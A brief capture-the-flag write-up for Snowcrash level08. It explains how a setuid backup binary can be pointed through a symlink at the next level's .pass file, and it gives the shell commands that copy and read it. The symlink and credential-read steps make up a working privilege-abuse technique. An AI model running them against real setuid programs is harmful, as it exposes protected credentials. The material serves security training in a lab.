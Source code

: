 # Snowcrash flashback (level08)

[This](source.c) one is pretty straight forward. What this binary does is take
a filename as a argument. It opens the given file, reads its content and creates
a copy inside the `backups` directory. Since it has the setuid bit on as usual
it can read the next level's .pass file. All we have to do is to give it the
file. The only subtlety here is that if the filename is a path with
subdirectories the program will try to create the file and fail since they dont
exist. The simplest solution then is to create a symlink the the file we want
and to feed it to the program.

```shell
# get your rights back
chmod 755 .
# create the symlink
ln -s /home/users/level09/.pass flag
# run the program to get a copy
./level08 flag
# enjoy your flag
cat backups/flag
```
